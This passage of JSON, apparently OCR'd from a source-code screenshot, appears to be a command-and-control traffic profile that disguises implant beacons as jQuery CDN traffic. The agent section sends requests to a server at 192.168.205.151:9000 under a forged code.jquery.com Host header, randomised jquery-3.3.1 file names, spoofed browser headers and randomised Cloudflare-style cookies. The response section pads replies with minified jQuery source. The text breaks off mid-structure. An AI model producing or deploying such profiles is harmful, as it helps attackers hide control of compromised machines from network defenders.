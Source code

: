 ```JSON
        "parameters": ["\".(o=t.documentElement,Math.max(t.body[\"scroll\"+e],o[\"scroll\"+e],t.body[\"offset\"+e],o[\"offset\"+e],o[\"client\"+e])):void 0===i?w.css(t,n,s):w.style(t,n,i,s)},t,a?i:void 0,a)}})}),w.each(\"blur focus focusin focusout resize scroll click dblclick mousedown mouseup mousemove mouseover mouseout mouseenter mouseleave change select submit keydown keypress keyup contextmenu\".split(\" \"),function(e,t){w.fn[t]=function(e,n){return arguments.length>0?this.on(t,null,e,n):this.trigger(t)}}),w.fn.extend({hover:function(e,t){return this.mouseenter(e).mouseleave(t||e)}}),w.fn.extend({bind:function(e,t,n){return this.on(e,null,t,n)},unbind:function(e,t){return this.off(e,null,t)},delegate:function(e,t,n,r){return this.on(t,e,n,r)},undelegate:function(e,t,n){return 1===arguments.length?this.off(e,\"**\"):this.off(t,e||\"**\",n)}}),w.proxy=function(e,t){var n,r,i;if(\"string\"==typeof t&&(n=e[t],t=e,e=n),g(e))return r=o.call(arguments,2),i=function(){return e.apply(t||this,r.concat(o.call(arguments)))},i.guid=e.guid=e.guid||w.guid++,i},w.holdReady=function(e){e?w.readyWait++:w.ready(!0)},w.isArray=Array.isArray,w.parseJSON=JSON.parse,w.nodeName=N,w.isFunction=g,w.isWindow=y,w.camelCase=G,w.type=x,w.now=Date.now,w.isNumeric=function(e){var t=w.type(e);return(\"number\"===t||\"string\"===t)&&!isNaN(e-parseFloat(e))},\"function\"==typeof define&&define.amd&&define(\"jquery\",[],function(){return w});var Jt=e.jQuery,Kt=e.$;return w.noConflict=function(t){return e.$===w&&(e.$=Kt),t&&e.jQuery===w&&(e.jQuery=Jt),w},t||(e.jQuery=e.$=w),w});"]
      }
    ],
    "ServerHeaders": {
        "Server": "NetDNA-cache/2.2",
        "Cache-Control": "max-age=0, no-cache",
        "Pragma": "no-cache",
        "Connection": "keep-alive",
        "Content-Type": "application/javascript; charset=utf-8"
      },
    "ServerCookies": {},
    "AgentMessage": [{
      "urls": ["http://192.168.205.151:9000"],
      "uri": "/<test:string>",
      "urlFunctions": [
        {
          "name": "<test:string>",
          "value": "",
          "transforms": [
            {
              "function": "choose_random",
              "parameters": ["jquery-3.3.1.min.js","jquery-3.3.1.map"]
            }
          ]
        }
      ],
      "AgentHeaders": {
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Host": "code.jquery.com",
        "Referer": "http://code.jquery.com/",
        "Accept-Encoding": "gzip, deflate",
        "User-Agent": "Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko"
      },
      "QueryParameters": [
          {
            "name": "q",
            "value": "message",
            "transforms": [
            ]
          }
      ],
      "Cookies": [
         {
          "name": "__cfduid",
          "value": "",
          "transforms": [
            {
              "function": "random_alpha",
```